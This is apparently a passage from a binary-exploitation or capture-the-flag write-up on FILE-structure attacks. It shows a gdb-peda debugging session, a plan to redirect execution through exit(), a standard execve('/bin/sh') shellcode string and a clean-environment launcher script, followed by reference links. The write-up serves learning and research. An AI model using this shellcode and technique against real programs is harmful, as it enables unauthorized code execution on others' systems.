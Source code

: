 ```
  __pad3 = 0x0, 
  __pad4 = 0x0, 
  __pad5 = 0x0, 
  _mode = 0x0, 
  _unused2 = '\000' <repeats 39 times>
}
gdb-peda$ x/s 0xffffd991
0xffffd991:     "TEST=changeme"
gdb-peda$ ni
[----snip----]
gdb-peda$ x/s 0xffffd991
0xffffd991:     " : FOODangeme"
gdb-peda$
```

It worked! I just need to write to the address of `exit() - 3` and write the address of my shellcode.
I'm using a 
common execve("/bin/sh") shellcode:

```python
"\x31\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0@\xcd\x80"
```

and I am using `invoke.sh`to get a clean environment:

```bash
#!/bin/sh

while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args $prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi
```


[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/
